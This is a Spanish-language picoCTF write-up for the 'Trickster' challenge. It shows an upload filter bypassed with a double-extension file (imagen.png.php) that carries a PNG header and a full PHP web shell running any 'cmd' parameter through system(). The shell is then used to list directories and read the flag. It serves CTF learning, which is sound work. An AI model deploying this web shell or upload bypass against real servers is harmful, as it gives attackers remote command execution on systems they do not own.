 ## Objetivo
I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:57013/)!
## Solución

```
En este reto tenemos una pagina web, donde podremos subir archivos png en ella, indagando un poco en la pagina nos encontramos un robots.txt
```

![Trickster](/imagenes/Trickster(1).png)

```
Checamos el instructions.txt:
```

![Trickster 2](/imagenes/Trickster(2).png)

```
Creamoss un archivo ccon doble extension, en mi caso imagen.png.php con el contenido de una webShell:
.PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

```
Subimos el archivo:
```

![Trickster 3](/imagenes/Trickster(3).png)

```
Y para ejecutar la webshell entramos a la ruta /uploads/imagen.png.php


pero agregamos /uploads/imagen.png.php?cmd=ls para ver si funciono la webshell:
```

![Trickster 4](/imagenes/Trickster(4).png)

```
En mi caso me desplego esto donde puedo ejecutar comandos.

Cheamos lo basico al entrar en un servidor:

un PWD para ver donde nos encontramos:
/var/www/html/uploads

un ls -la ../ para ver el direcctorio anterior:
total 16
drwxrwxrwt 1 www-data www-data   21 Mar 12  2024 .
drwxr-xr-x 1 root     root       18 Nov 21  2023 ..
-rw-r--r-- 1 root     root       49 Mar 12  2024 GAZWIMLEGU2DQ.txt
-rw-r--r-- 1 root     root     1572 Feb  7  2024 index.php
-rw-r--r-- 1 root     root      415 Feb  7  2024 instructions.txt
-rw-r--r-- 1 root     root       62 Feb  7  2024 robots.txt
drwxr-xr-x 1 www-data root       28 Oct  2 03:26 uploads

vemos un archivo raro asi que lo abrimoss:

cat ../GAZWIMLEGU2DQ.txt

y obtenemos la flag
```

![Trickster 5](/imagenes/Trickster(5).png)

## Notas adicionales
## Referencias